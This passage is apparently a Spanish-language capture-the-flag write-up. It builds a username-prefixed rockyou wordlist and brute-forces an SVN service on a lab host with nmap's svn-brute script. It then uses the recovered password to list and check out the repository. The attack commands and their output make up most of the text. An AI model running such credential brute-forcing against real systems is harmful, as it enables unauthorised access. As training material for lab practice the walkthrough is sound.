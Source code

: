 ```bash
$ sed 's/^/svnuser\//' /usr/share/wordlists/rockyou.txt > svnuser_rockyou.txt

$ head svnuser_rockyou.txt                             
svnuser/123456
svnuser/12345
svnuser/123456789
svnuser/password
svnuser/iloveyou
svnuser/princess
svnuser/1234567
svnuser/rockyou
svnuser/12345678
svnuser/abc123
```

Ejecutamos `nmap` con nuestro listado de credenciales y encontramos las del usuario `svnuser`.

```bash
$ nmap --script svn-brute --script-args svn-brute.repo=/subversion/,brute.credfile=./svnuser_rockyou.txt -p 3690 172.17.0.2 --min-rate 5000 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 18:42 CET
Nmap scan report for 172.17.0.2
Host is up (0.000014s latency).

PORT     STATE SERVICE
3690/tcp open  svn
| svn-brute: 
|   Accounts: 
|     svnuser:iloveyou! - Valid credentials
|_  Statistics: Performed 995 guesses in 46 seconds, average tps: 21.8

Nmap done: 1 IP address (1 host up) scanned in 49.63 seconds
```


## Repositorio SVN

Ahora podemos listar y descargar el respositorio.

```bash
$ svn ls svn://172.17.0.2/subversion --username=svnuser --password=iloveyou!
subversion
subversion.c
```

Hay dos ficheros un binario y lo que parece su código fuente en C. Nos clonamos el repositorio de SVN.

```bash
$ svn checkout svn://172.17.0.2/subversion --username=svnuser --password=iloveyou! subversion_report
A    subversion_report/subversion
A    subversion_report/subversion.c
Revisión obtenida: 1
$ cd subversion_report/
$ ls -a
.  ..  subversion  subversion.c  .svn
```
